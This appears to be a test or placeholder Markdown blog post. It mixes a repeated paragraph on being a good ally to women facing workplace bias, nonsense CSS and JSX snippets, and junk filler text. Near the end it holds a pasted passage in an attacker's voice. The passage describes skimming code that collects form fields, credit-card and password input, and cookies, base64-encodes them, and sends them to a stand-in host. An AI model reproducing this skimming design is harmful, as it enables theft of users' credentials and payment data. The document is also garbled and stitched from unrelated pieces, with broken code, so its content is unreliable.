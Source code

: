 ```yaml
---
path: '/second-post'
title: 'Be a Pal, My Dudes'
published: true
date: '2017-11-23'
author: 'James Willis'
minutes: '4'
---
```


## A few specific ideas for being a good ally

So, we run a [workshop](google.com) to help women reduce the impact of gender bias in the workplace. A commonly asked question is something like “Why aren’t you running a workshop for men, since they are the ones who have to change?” The short answer is that it’s a complex dynamic, and women have the most incentive to change it. Our approach is to help decrease the amount of effort overall since women in male-dominated workplaces are already putting in so much extra because of bias. If you want to change habits, start where there are already strong incentives for change.

The longer answer is, we’re working on it.

### A few specific ideas for being a good ally

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying. This is true for anyone who has more privilege in any given situation. Do your part to make it easier.

***

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying

![This is a caption](https://images.unsplash.com/photo-1506269351850-0428eaed2193?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=a1512d7659e4817df8217cdb9aa09d7a&auto=format&fit=crop&w=1350&q=80)
<figcaption>Text bloe image with links <a href="https://www.google.com">Test</a></figcaption>

```css
#header h1 a {
  display: block!important;
  width: 300px;
  height: 80px;
}
```

```jsx
car.table
const table = me;
table = 5;
function test() {

}
3453 + 2134 / = 100
class Test extends Component {
  test() {
    const me = you;
    return (
      <yolo></yolo>
    );
  }

  render() {
    return (
      me
    )
  }
}
// hello
/** 
 * Hello
*/
```


Then, when there’s a blur event on a password/credit card field, or a form submit event is heard, my code:

* Takes data from all form fields (document.forms.forEach(…)) on the page
* Grabs document.cookie
* It turns all that into a random looking string const payload = btoa(JSON.stringify(sensitiveUserData))
* Then sends it off to `https://legit-analytics.com?q=${payload}` (not the real domain, of course)
* In `short`, if ```it looks``` like data that might be even remotely valuable to me, I send it off to my server.

> *f an attacker successfully injects any code at all, it’s pretty much game over*
sdfdsf
sdfsdf

![My image](https://cdn-images-1.medium.com/max/800/1*ePuviAguE9BPZ2GgdY8UXg.png)
  <figcaption>sdsd</figcaption>



  ![My image](https://upload.wikimedia.org/wikipedia/commons/b/be/Sharingan_triple.svg)
  <figcaption>sdsd</figcaption>